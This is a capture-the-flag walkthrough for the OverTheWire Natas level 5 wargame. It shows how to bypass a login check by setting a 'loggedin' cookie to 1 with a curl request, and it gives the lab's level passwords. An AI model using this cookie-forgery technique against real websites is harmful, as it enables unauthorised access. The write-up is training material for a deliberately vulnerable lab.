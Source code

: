 ## Recap

* You'll get the password in level4. it's `iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq`

## Problem 

Username: natas5
URL:      http://natas5.natas.labs.overthewire.org

![image-20201001210950052](https://i.imgur.com/rl0Uv6l.png)

## Solution

* F12 and look cookies, you'll find the "loggedin" params. (Which usually is used to justify if user logged in or not.)

![image-20201001211010366](https://i.imgur.com/rznZlxB.png)

* Change it to 1 and resend. (Same technique in level4, but more concise).

```bash
curl 'http://natas5.natas.labs.overthewire.org/' \
  -H 'Authorization: Basic bmF0YXM1OmlYNklPZm1wTjdBWU9RR1B3dG4zZlhwYmFKVkpjSGZx' \
  -H 'Cookie: loggedin=1' \
  --compressed \
  --insecure ;
```

* Type in bash, find the token.
  * ![image-20201001211407975](https://i.imgur.com/9iFLNJv.png)
  * `Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1`